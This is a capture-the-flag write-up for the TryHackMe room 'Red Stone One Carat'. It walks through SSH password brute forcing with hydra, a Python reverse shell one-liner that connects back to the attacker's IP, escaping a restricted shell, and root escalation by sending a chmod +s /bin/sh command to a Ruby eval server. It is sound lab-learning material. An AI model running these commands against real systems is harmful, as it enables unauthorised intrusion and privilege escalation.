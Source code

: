 # Tryhackme.com Room : Red Stone One Carat

`https://tryhackme.com/room/redstoneonecarat`



## SSH access

The challenge ask us to bruteforce the ssh credentials for the user `noraj`

We do so with `hydra`.

After a while, we look at the `hint`. It says that the password contains `bu`.

We `grep "bu" /usr/share/wordlists/rockyou.txt > with_bu` and use this list.

We find the password `cheeseburger`



## Initial Foothold
Able to launch an http server so we can browse the filesystem
```
test.rb Kernel system '/usr/bin/python3 -m http.server'
```
We can retrieve the `user.txt` this way but let's figure out a way to get a reverse shell.

We get permission denied with :
```
'/usr/bin/python3 -c '"'"'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.32.20",5243));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'"'"
```
This is because the user `noraj` doesn't have permissions to `/bin/bash`

We get a reverse shell with
```
'/usr/bin/python3 -c '"'"'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.32.20",5243));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'"'"
```

The `$PATH` is set to `/home/noraj/bin` so we don't have access to any commands. Let's fix this
```
export PATH='/usr/sbin;/usr/local/sbin:/usr/local/bin:/usr/bin:/bin'
```

And we can now `ls` and friends.
Still, we don't have permission for a bunch of binaries :
```
cat
grep
netstat
ss
````

We can read files using 
```
python3 -c 'print(open("/home/noraj/user.txt","r").read())'
```
not super user friendly tho.

`/home/noraj/user.txt` :
```
THM{3a106092635945849a0fbf7bac92409d}
```


## Priv Esc
There is a hint file in `/home/noraj/.hint.txt`
```
Maybe take a look at local services.
```

We check if some ports are open using `lsof -i -P -n` but we don't see anything (Probably need root access to see the interesting ports)

running `systemctl` we see that there is a `dummy.service` that is `inactive/failed`
We retrieve the content of its config with
```
python3 -c 'print(open("/etc/systemd/system/dummy.service","r").read())'
```
We get 
```
[Unit]
Description=Dummy apps
# After=network.target

[Service]
User=vagrant
Type=forking
ExecStart=/dummy.sh

[Install]
WantedBy=multi-user.target
```

The `/dummy.sh` script contains :
```
#!/bin/bash

# Start dummy listeners
for i in $(seq 30000 31000)
do
    if [ $i = 31547 ]
    then
        echo $i
    else
        nc -nlp $i -s 127.0.0.1 &
    fi
done
```

We don't have write access to either the config file or `dummy.sh`. Hmm, not sure how to exploit this.

There is another service owned by the user `vagrant` defined in `/etc/systemd/system/root-app.service` :
```
[Unit]
Description=Root app
# After=network.target

[Service]
User=root                                             
ExecStart=/usr/bin/ruby /root/server.rb
Restart=on-failure

[Install]                                          
WantedBy=multi-user.target
```

After some tinkering with the service files, I finally realised that `dummy.sh` is only there to give us the hint that `server.rb` is running on port `31547`. (Actually found out using `nc -n -v 127.0.0.1 1-65535`)
When we connect to it using `/bin/nc -v 127.0.0.1 31547` we get a "shell".
It's a somewhat restricted `ruby` shell.
There is a bunch of forbidden characters :
```
.
"
'
(
)
`
```

We find that we can execute shell commands using
```
%x|chmod +s /bin/sh
```

We break out of the ruby cmd line by entering an invalid character (such as `%`)
We can then launch a root shell using `/bin/sh -p`

We get the flag `/root/root.txt` :
```
THM{58e53d1324eef6265fdb97b08ed9aadf}
```

For completeness, here is `/root/server.rb` :
```
cat server.rb
require 'socket'

server = TCPServer.new 'localhost', 31547

begin
  while client = server.accept
    client.print '$ '
    while line = client.gets
      if /[\`\(\)\[\]\.\'\"\<\>]+/.match?(line)
        client.puts 'Forbidden character'
      elsif /exit/i.match?(line)
        break
      else
        begin
          client.puts eval(line)
        rescue NameError => e
          client.puts e
        end
      end
      client.print '$ '
    end
    client.puts "Closing the client. Bye!\n"
    client.close
    #server.close
  end
rescue Errno::ECONNRESET, Errno::EPIPE => e
  puts e.message
  retry
end
```

## Wrap up
* This challenge was different then what i'm used to. There was a lot of restrictions on the commands that can be used. First the restricted `zsh` shell, then the `test.rb` script, then even our reverse shell was missing a lot of commands. Finally the `server.rb` was restricting a lot of stuff.
* I wasted time getting the reverse shell in the beginning because I didn't understand right away why I received a `permission denied` when launching my reverse shell. After changing to `/bin/sh` everything was fine.
* After that, I wasted some time trying to exploit `/etc/systemd/system/dummy.service`. Trying to highjack the `nc` binary. I didn't get the hint that since it wasn't creating a listener on port `31547`, this was probably the port that was running the `server.rb`.
** Actually, I though that it would have been an `http` server. So at first I crafted a little python script that would do a GET request to all ports. When this failed, I did a port scan with `nc -v -n 127.0.0.1 1-65535` and this is how I discovered port `31547`.
* Did learn a bit of ruby and a bit more about file permissions.

